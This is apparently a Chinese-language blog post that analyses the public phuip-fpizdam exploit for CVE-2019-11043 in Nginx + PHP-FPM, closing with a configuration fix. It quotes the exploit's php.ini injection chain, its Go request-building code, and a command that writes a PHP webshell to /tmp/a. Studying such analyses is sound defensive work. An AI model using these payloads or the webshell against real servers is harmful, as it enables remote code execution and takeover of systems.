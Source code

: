 ```yaml
---
title: PHP CVE-2019-11043 RCE工具分析
categories:
  - Web安全
tags:
  - Web安全
  - 漏洞分析
toc: true 文章目录
author: BlBana
date: 2019-10-23 22:10:40
description:
comments:
original:
permalink:
---
```


> 下午看见了CVE-2019-11043漏洞的利用工具，简单的把phuip-fpidam工具看了一下，利用CVE-2019-11043进行php.ini文件的配置改写，再在加载PHP扩展时写入Webshell。

<!-- more -->

# 1. 漏洞描述

PHP官方通告发布，使用Nginx + php-fpm服务器，在默认配置下，存在远程代码执行漏洞。Nginx在fastcgi_split_path_info带有%0a即换行符时，导致PATH_INFO为空，而php-fpm处理PATH_INFO为空，存在缺陷。

# 2. 影响范围

Nginx + php-fpm配置的服务器

# 3. 漏洞原理

具体原理没有分析，需要分析C代码

# 4. 漏洞检测

默认配置下，就可能存在远程代码执行漏洞。

```nginx
location ~ [^/].php(/|$) {
fastcgi_split_path_info ^(.+?.php)(/.*)$;
fastcgi_param PATH_INFO $fastcgi_path_info;
fastcgi_pass php:9000;
```

# 5. 漏洞利用

工具phuip-fpizdam已经可以对目标程序写入WebShell并进行命令执行。

- main.go

在`Detect`函数中，通过遍历的方式获取`params`结构体中的两个参数，`QueryStringLength`和`PisosLength`。调用`Attack`函数并传入结构体params。

- attack.go

在Attack函数中，循环构造并向目标服务器发送`payload`。

```go
# 原始payload如下

var chain = []string{
	"short_open_tag=1",
	"html_errors=0",
	"include_path=/tmp",
	"auto_prepend_file=a",
	"log_errors=1",
	"error_reporting=2",
	"error_log=/tmp/a",
	"extension_dir=\"<?=`\"",
	"extension=\"$_GET[a]`?>\"",
}
```

发送前进行构造：

```go
func MakePathInfo(phpValue string) (string, error) {
	pi := "/PHP_VALUE\n" + phpValue
	if len(pi) > PosOffset {  # PosOffet=34
		return "", fmt.Errorf("php.ini value is too long: %#v", phpValue)
	}
	return pi + strings.Repeat(";", PosOffset-len(pi)), nil
}

# 构造后如下payload
pi = "/PHP_VALUE\nshort_open_tag=1"+";;;;;;;"
```

发送构造的`payload`：

```go
func SetSettingSingle(requester *Requester, params *AttackParams, setting, queryStringPrefix string) (*http.Response, []byte, error) {
	payload, err := MakePathInfo(setting)
	if err != nil {
		return nil, nil, err
	}
	return requester.RequestWithQueryStringPrefix(payload, params, queryStringPrefix)
}

# payload = "/PHP_VALUE\nshort_open_tag=1"+";;;;;;;"
# params = {qsl: 1790, pisos: 152} 具体数值是这样，没写过Go。。。不知道格式对不对
# queryStringPrefix = "a=/bin/sh+-c+'which+which'&"
```


在`RequestWithQueryStringPrefix`函数中，`payload`被拼接到了URL路径当中，`params.QueryStringLength`用于生成定量的字符`“Q”`与`prefix`进行拼接，`params.PisosLength`放入请求头`D-Pisos`中。

```go
u.Path = u.Path + pathInfo
qslDelta := len(u.EscapedPath()) - len(pathInfo) - len(r.u.EscapedPath())
if qslDelta%2 != 0 {
	panic(fmt.Errorf("got odd qslDelta, that means the URL encoding gone wrong: pathInfo=%#v, qslDelta=%#v", qslDelta))
}
qslPrime := params.QueryStringLength - qslDelta/2 - len(prefix)
if qslPrime < 0 {
	return nil, nil, fmt.Errorf("qsl value too small: qsl=%v, qslDelta=%v, prefix=%#v", params.QueryStringLength, qslDelta, prefix)
}
u.RawQuery = prefix + strings.Repeat("Q", qslPrime)
```

发送payload，原始payload被写入到php.ini文件中，参数a后的命令成功执行`/bin/sh+-c+'which+which'&` ，利用配置extension_dir和extension拼接PHP扩展路径在加载PHP扩展时进行命令执行。**（这块具体还不清楚是如何加载并执行了其中的代码，需要留个坑后面补充，继续分析工具调用。。。）**

成功加载扩展并执行命令后，开始写入Webshell。

```shell
cleanupCommand = ";echo '<?php echo `$_GET[a]`;return;?>'>/tmp/a;which which"
```

在/tmp/a文件中写入Webshell。

- 如何加载Webshell

    ```ini
    "include_path=/tmp"  # 配置include时文件路径
    "auto_prepend_file=a"  # 默认在全部PHP文件前面include("/tmp/a")
    ```

- 成功加载Webshell。

在http://localhost/index.php?a=cmd即可执行命令。

# 6. 漏洞修复

不影响业务情况下，可以选择删除下列配置：

```nginx
fastcgi_split_path_info ^(.+?.php)(/.*)$;
fastcgi_param PATH_INFO $fastcgi_path_info;
```

# 7. 参考链接

- [phuip-fpizdam工具](https://github.com/neex/phuip-fpizdam)
- [Vulhub漏洞环境](https://github.com/vulhub/vulhub/tree/master/php/CVE-2019-11043)
- [PHP官方公告](https://bugs.php.net/bug.php?id=78599)